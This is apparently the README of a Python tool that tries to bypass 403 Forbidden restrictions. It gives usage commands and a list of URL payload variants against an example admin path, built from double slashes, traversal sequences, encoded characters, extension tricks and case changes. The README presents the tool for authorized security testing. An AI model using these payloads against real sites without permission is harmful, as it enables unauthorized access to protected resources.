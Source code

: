 # 403 Bypass Script

This script attempts to bypass 403 Forbidden access restrictions by appending and modifying URL paths in different ways. It generates a list of URL variations based on encoding, path traversal, and other techniques.

## How It Works

The script takes a target domain as an argument and appends various URL encoding tricks, path traversal techniques, and common bypass patterns to the given domain. It then attempts to access each generated URL.

## Usage

Run the script with the target domain as an argument:

```sh
python bypass_403.py example.com
```

Run with custom path. example: /secret/

```shell
python bypass_403.py example.com /secret/
```

Features
• Tries different URL encoding techniques
• Uses path traversal and directory manipulation
• Attempts access with special characters and encodings
• Generates multiple variations of the /admin path

Notes
• This script is for educational and security testing purposes only.
• Do not use it on systems without proper authorization.

Example URLs Used in Bypass

Some of the techniques used in this script include:
• Double slashes:

example.com//admin//
example.com///admin///

    •	Path traversal:

example.com/admin/../
example.com/admin/./
example.com/admin/..;/

    •	URL encoding:

example.com/admin/%2e/
example.com/admin/%2f
example.com/admin/%20

    •	Query and fragment manipulation:

example.com/admin?
example.com/admin??
example.com/admin#
example.com/admin/#

    •	File extension tricks:

example.com/admin.json
example.com/admin.css
example.com/admin.html

    •	Special character injection:

example.com/;/admin/
example.com/admin/~
example.com/admin/\*

    •	Case variation:

example.com/ADMIN
example.com/ADM+IN
example.com/\*/admin

By using different encoding techniques and special characters, the script attempts to find alternate paths that may bypass 403 restrictions.

**_Disclaimer: Use this tool responsibly and only on systems where you have permission._**
